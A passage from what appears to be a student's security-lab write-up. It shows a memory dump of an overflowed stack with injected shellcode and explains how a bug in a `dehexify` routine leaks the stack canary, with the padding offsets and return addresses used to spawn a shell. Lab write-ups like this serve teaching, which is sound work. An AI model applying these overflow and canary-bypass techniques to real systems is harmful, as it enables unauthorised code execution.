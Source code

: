 After attack:

```
0xbffff648:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff658:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff668:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff678:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff688:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff698:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff6a8:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff6b8:     0x11111111      0x11111111      0x11111111      0x11111111
0xbffff6c8:     0x000000c0      0x11111111      0x11111111      0x11111111
0xbffff6d8:     0x11111111      0xbffff6e0      0xcd58326a      0x89c38980
0xbffff6e8:     0x58476ac1      0xc03180cd      0x2f2f6850      0x2f686873
0xbffff6f8:     0x546e6962      0x8953505b      0xb0d231e1      0x0a80cd0b
0xbffff708:     0xbffff790      0xb7f8cc8b      0x00000002      0xbffff784
0xbffff718:     0xbffff790      0x00000008      0x00000000      0x00000000
0xbffff728:     0xb7f8cc5f      0x00401fb8      0xbffff780      0xb7ffede4
0xbffff738:     0x00000000      0x00400505      0x0040073b      0x00000002
```

Notice that `0xbffff6dc` contains the modified return address, pointing to 4 bytes above it. Everything after is the shellcode. 


---


### Problem 3: jz

#### Main Idea

The vulnerability lies in the fact that the canary value can be found through the printf statement in `dehexify`. Specifically, the while loop in `dehexify` will automatically increment `i` by 3 if it encounters the '\\' and 'x' next to one another. Therefore, it is possible to skip over the null terminator character inside of `c.buffer` if "\\x" is placed right before the null termination character. Using this approach, the while loop inside of `dehexify` will continue parsing bytes after the null termination character, eventually storing the value of the stack canary inside of `c.answer`. The printf statement will then print out `c.answer`, revealing the stack canary. 

Once we have the canary value, we use the same buffer overflow attack as in problems 1 and 2, making sure to replace the stack canary with the leaked canary value. 


#### Magic Numbers 

In order to retrieve the canary value, we needed to add the "\\x" characters 2 bytes before where the stack canary lies. Specifically, we padded the string by 12 bytes, inserted "\\" and "x", and then ended the string. Once the while loop encountered "\\x", it would skip to the stack canary in the next iteration. 

In order to spawn our shell, it was determined that the stack canary lied on address `0xbffff704`. Therefore, we needed to pad the beginning of the buffer by 15 characters plus a null termination character. 

The address of the stored return address was `0xbffff710`. Our modified return address needed to be `0xbffff714`. It was determined that the stored return address lied `0xbffff710` - `0xbffff708` = 8 bytes above the stack canary. Thus, we had to pad 8 bytes more after filling in the stack canary.
